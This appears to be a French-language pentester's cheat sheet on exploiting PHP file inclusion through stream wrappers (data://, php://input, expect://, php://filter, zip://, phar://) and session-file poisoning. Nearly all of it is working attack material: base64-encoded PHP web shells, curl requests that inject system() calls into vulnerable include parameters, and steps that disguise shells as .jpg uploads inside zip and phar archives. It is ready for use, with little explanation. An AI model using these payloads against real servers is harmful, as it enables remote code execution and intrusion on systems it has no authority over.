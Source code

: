 # Wrappers
Méthode d'accéder à des ressources de différentes façon. Sert donc à faire comme si on lisait un fichier?
### data://
Peut  exécuter du code en texte brute ou encoder (base64, ...)
Nécessite allow_url_include dans la config PHP
config Apache:
php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
config Nginx:
php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2//etc/php/X.Y/fpm/php.ini
			
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~shell
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==

curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
### php://input
comme data mais reçois en POST
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~shell
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
### expect://
Exécute commandes
Pas installé par défaut, mais plusieurs applications s'en servent. Rechercher dans le fichier de config comme data pour “expect” et savoir si il est installé
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~shell
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
### php://filter
Applique des filtres sur la sortie. Lire des fichiers. Utiliser fuzzeur pour trouver fichiers ou lire code pour trouver des  inclusions
```
php://filter/convert.base64-encode
```
encode en base 64 ce qui permet d'afficher un fichier sans l'exécuter
php://filter/read=convert.base64-encode/resource=admin.php
			
### zip://
Pas actif par défaut. Permet de dézipper une charge.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php

curl 'http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
### phar://
créer un script PHP. PHAR peut utiliser n'importe quelle extension
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
#
$phar->setStub("<?php __HALT_COMPILER(); ?>");

$phar->stopBuffering();
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

compiler en phar
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Téléverser puis référencer le shell.txt	
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
curl 'http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

#### Désérialization < PHP 8.1
Possible d'exécuter du code lors de la désérialization. 
* Doit connaître le nom d'une classe dans l'application vulnérable.
* La classe doit utiliser \__construct ou \__destruct
https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization

# PHP Session
* /var/lib/php/sessions/sess\_\[cookie_PHPSESSID]
* C:\Windows\Temp\sess\_\[cookie_PHPSESSID]

Ajouter du code d'une quelquonque façon dedans puis

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
curl 'http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~